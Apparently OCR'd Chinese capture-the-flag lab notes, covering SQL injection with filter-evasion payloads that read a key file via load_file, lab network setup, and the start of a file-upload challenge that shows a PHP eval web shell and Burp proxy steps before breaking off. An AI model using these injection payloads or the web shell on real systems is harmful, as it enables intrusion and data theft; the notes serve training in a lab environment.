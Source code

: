 空格：/\*\*/

union:uniunionon

2.构造闭合语句：

select \* from article where id= \('1'\)

%27\)and%23

select \* from article where id= \('1'\)and\#'\)

3.判断前表列数：

%27\)/\*\*/ununionion/\*\*/select/\*\*/1/\*\*/%23 错误



%27\)/\*\*/ununionion/\*\*/select/\*\*/1,2,3,4/\*\*/%23 正常

4.判断结果在哪列显示：

参数值前加负号

5.读key

%27\)/\*\*/ununionion/\*\*/select/\*\*/1,load\_file\("/tmp/360/key"\),3,4/\*\*/%23

环境：

1.pet-centos:172.16.12.100:81-85，网卡：NAT

2.CZJ-2003:nat

3.真机：vmnet8:自动获取

4.vmware:编辑--虚拟网络编辑--vmnet8:dhcp,

172.16.12.0

子网掩码：255.255.255.0



sqlmap.py -v 3:显示payload



第二道：上传漏洞：

不允许上传：Php,过滤一句话木马：eval,request

文件头检测：

&lt;?php eval\($\_POST\['cmd'\]\);?&gt;

1.随意在c盘搜索一个jpg\(小\)，浏览上传：uu.jpg

2.burp抓包：

a:90secfirefox代理：工具--选项--高级--网络--设置：手动代理：127.0.0.1 端口：8080

b.运行：burploader:proxy--intercpet off

不能运行：日期：2017.10.10

浏览--把uu.jpg上传

